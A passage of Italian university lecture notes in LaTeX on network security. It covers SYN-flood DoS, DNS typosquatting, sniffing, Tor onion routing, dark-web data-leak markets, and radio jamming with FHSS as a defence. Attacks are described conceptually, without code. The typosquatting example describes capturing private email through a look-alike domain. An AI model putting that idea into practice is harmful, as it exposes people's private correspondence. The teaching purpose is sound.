Il protocollo TCP al contrario di altri protocolli dello stesso livello come UDP (User Datagram Protocol) è un protocollo orientato alla connessione, per effettuare ciò TCP in via un pacchetto con una segnalazione speciale chiamata \textbf{SYN}, inviato questo pacchetto si aspetterà un altro pacchetto con una segnalazione di tipo \textbf{SYN-ACK}, e infine una volta arrivatogli risponderà con un pacchetto di segnalazione di tipo \textbf{ACK}, questo modo di stringere la connessione prende il nome di \textbf{3-Way Handshake}.

Sfruttando questa cosa a nostro vantaggio, cosa succede se non si invia mai l'ACK finale e il server può accettare massimo $n$ chiamate? \\
Si otterrà un attacco di tipo Denial of Service (DoS) dopo $n$ chiamate rendendo impossibilitato il server a rispondere alle varie connessioni.

\subsection{DNS (Domain Name Service)}
Il mondo dei servizi online per questione di praticità non ragione in termini di indirizzi, troppo complessi da ricordare e facilmente soggetti a errori di scrittura, per questo motivo è esiste un registro online distribuito chiamato \textbf{DNS}

\subsubsection{Attacco a DNS: Typosquatting}
Cosa succede se comprassimo il dominio gmail.it?
Tutte le persone che sbaglieranno a scrivere l'indirizzo email da gmail.com a gmail.it invieranno le loro email al nostro server, questo ci farebbe entrare in possesso di email private senza nemmeno dover effettuare social engineering.

\subsection{Sniffing}
Lo sniffing è una forma di Eavesdropping e può essere messo in atto da chiunque lungo tutto il percorso verso la destinazione del pacchetto. Lo sniffing si può effettuare in tutti i protocolli già citati, e.g. sniffing DNS che ci permette di entrare a conoscenza di tutti i siti visitati, sniffing TCP che ci rivela ciò che si sta chiedendo al server etc.

\section{Anonimizzazione}

\subsection{Anonymous remailer}
Prendendo in considerazione il caso più semplice, cioè l'invio di email anonime.
Un anonymous remailer è un server che ricevuta un'email (con le informazione sul destinatario) prende questa email e la inoltra al destinatario rimuovendo le informazioni del mittente.
Un esempio di molto simile è ciò che sta alla base delle VPN.
Un anonynous remailer è un esempio di proxy. Il problema dei proxy però è che hanno informazioni sul nostro traffico, ciò lo rende facilemnte utilizzabile come eavesdropper.

\subsection{Routing a cipolla}
Per anonimizzare completamente il traffico è possibile usare il cosiddetto Routing "a Cipolla" (Onion Routing).
Il software più famoso che rende possibile ciò è Tor (The Onion Routing) che utilizza questi concetti per anonimizzare il traffico.

\begin{figure}[h!]
    \centering
    \begin{subfigure}{.5\textwidth}
        \centering
        
\includegraphics[width=1\linewidth]{res/tor1.png}
    \end{subfigure}%
    \begin{subfigure}{.5\textwidth}
        \centering
        
\includegraphics[width=1\linewidth]{res/tor2.png}
    \end{subfigure}
    \begin{subfigure}{.5\textwidth}
        \centering
        
\includegraphics[width=1\linewidth]{res/tor3.png}
    \end{subfigure}
\end{figure}
Tor è un protocollo studiato per mantenere l'anonimato sulla rete basandosi sul routing a cipolla.
L' \textbf{\textit{Onion Routing}} consiste nell'incapsulare il pacchetto in vari strati, da qui il nome routing a cipolla, il client al momento dell'invio del pacchetto sceglierà il percorso da fargli fare, sempre casuale, e cripterà ogni strato in modo tale che sia eliminabile da un solo nodo del percorso, così facendo il pacchetto verrà inviato al primo nodo che lo "pelerà" dal primo strato e lo spedirà al secondo nodo che farà lo stesso e così via una volta arrivato all'ultimo nodo il pacchetto sarà decifrato totalmente e verrà inviato in chiaro al server destinatario.
Ognuno dei nodi dal secondo all'ultimo che utilizzeremo sarà a conoscenza solo del nodo precedente e successivo, questo ci garantisce l'anonimità della connessione, solo il primo nodo sarà a conoscenza del mittente ma come gli altri non sarà a conoscenza del contenuto del messaggio e del destinatario finale che al contrario sarà conosciuto solo dall'ultimo nodo (exit node).
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.8\linewidth]{res/tor-encryption.png}
    \caption{}
\end{figure}
Tor viene quindi soprannominata rete overlay. Una rete chiusa al quale all'interno vengono distribuiti dati in forma anonima.
Garantendo l'anonimato al suo interno è spesso utilizzata per fornire dei servizi illegali.
Un comportamento molto presente sui servizi onion è la compravendita di Dataleak (informazioni private di aziende, persone o oggetti).
Due dei dataleak più importanti sono quelli di tipo Fullz e Password:
\begin{itemize}
    \item Fullz: collezione di infoermazioni personale contenenti almeno il minimo indispensabile per creare conti correnti e/o pagare con carte di credito, utili per perpetrare truffe molto più facilmente:
    \begin{itemize}
        \item Nome e Cognome
        \item Data di nascita
        \item Codice Fiscale
        \item Indirizzo di residenza
        \item Numero di telefono
    \end{itemize}
    \item Password: sono i leak di informazioni più comuni in cui viene messa online una lista di account e password di qualche servizio pronte per essere acquistate da qualcuno.
\end{itemize}
Anche se Tor è molto sicuro purtroppo è afflitto anch'esso da falle:
\begin{itemize}
    \item Geolocalizzazione: se attiva porterebbe a rivelare l'ip dell'utilizzatore di un servizio anche con Tor;
    \item DNS: un altra falla è la possibile richiesta DNS all'esterno che porterebbe l'attaccante a sapere il servizio da noi visitato;
\end{itemize}
Le informazioni rivelate non devono per forza essere direttamente collegate a vostre richieste ma possono essere informazioni "laterali" (Side Channel), come la dimensione in cui siamo abituati a tenere la finestra del browser la percentuale di luminosità dello schermo ecc. che se inviate al server remoto porterebbe lo stesso a una profilazione.
Per sopperire a queste problematiche la chiave è rilasciare non più informazioni di quelle strettamente necessarie.
\chapter{Radio e Reti Wireless}

\section{Trasmissioni Radio}
Le trasmissioni radio sono soggette a problemi di sicurezza informatica.
Molto integrate nei sistemi:
\begin{itemize}
    \item Cancelli automatici
    \item Telecomandi automobili
    \item RFID (contactless)
    \item Wi-Fi (IEEE 802.11)
    \item Bluetooth / Zigbee / Domotica
\end{itemize}
\subsection{Basi teoriche Radio}
Nelle comunicazioni radio vengono definiti:
\begin{itemize}
    \item Trasmettitore - \textbf{TX}: colui che trasmette le informazioni;
    \item Ricevitore - \textbf{RX}: colui che riceve le informazioni;
    \item Transceiver: è un dispositivo in grado di effettuare entrambe le operazioni.
\end{itemize}

La trasmissione radio avviene eccitando un antenna, il campo elettrico viene "spostato" nell'ambiente circostante. Sostanzialmente gli elettroni in cui è immersa l'antenna (l'etere) vengono spostati dall'energia a cui la sottoponiamo.
Per poter inviare il giusto segnale ogni tipo di antenna ha la sua peculiarità e deve essere dimensionata correttamente per la trasmissione che vogliamo effettuare.
Nella ricezione invece l'antenna riceve lo "spostamento" del campo elettrico e lo invia alle componenti elettroniche a cui è collegata, i quali si occuperanno di elaborare le informazioni ricevute.\\
Per trasmettere l'antenna deve "vibrare". Questa vibrazione deve essere effettuata a una determinata frequenza, la frequenza si fa vibrare l'antenna prende il nome di "portante".
In ricezione invece un'antenna più grande risulterà e più informazioni riuscirà a ricevere (più frequenze catturate), la ricevente catturerà molte più informazioni di quelle di cui necessitiamo per questo sarà necessario filtrarle, questo processo prende il nome di sintonizzazione. La sintonizzazione non è sicurezza.

\subsection{Modulazione}
Per permettere una trasmissione dati sicura bisognerà stipulare un protocollo di comunicazione (layer 1), che prevederà come le informazioni (bit) vengono codificate e inviate dall'antenna.Esistono tre principali classi di modulazione:
\begin{itemize}
    \item Modulazione in Ampiezza (AM)
    \item Modulazione in Frequenza (FM)
    \item Modulazione in Fase (PM)
\end{itemize}
La modulazione più semplice che vedremo è l'\textbf{OOK} (on off keyring), facente parte della modulazione AM.
Il concetto alla base è trasmettere i dati accendendo (bit 1) e spegnendo (bit 0) la portante.
\begin{figure}[h!]
    \centering
    
\includegraphics[width=.8\linewidth]{res/OOK.png}
    \caption{}
\end{figure}
\subsection{Jamming}
Un problema di questa modulazione è facilmente intuibile, in quanto accendendo sempre la portante non si avrà più l'invio dell'informazione, problema presente anche in altri protocolli (I2C).
Un attacco che si può effettuare con questi protocolli è mediante l'utilizzo di un \textbf{jammer}, l'idea per renderlo meno efficacie è quella di utilizzare più frequenze portanti aumentando la banda (banda larga) in questo modo il jammer dovrà utilizzare più energia per offuscarle tutte.
Un meccanismo per ovviare all'attacco tramite jammer è l'utilizzo del \.textbf{FHSS} (Frequency Hopping Spread Spectrum) che consiste nel utilizzare più portanti, con un ordine scelto a priori, per inviare le informazioni, così in caso di jamming o collisione di segnali si avrà una perdita di informazioni limitata ad una sola portate perdendo meno informazioni.
\begin{figure}[h!]
    \centering
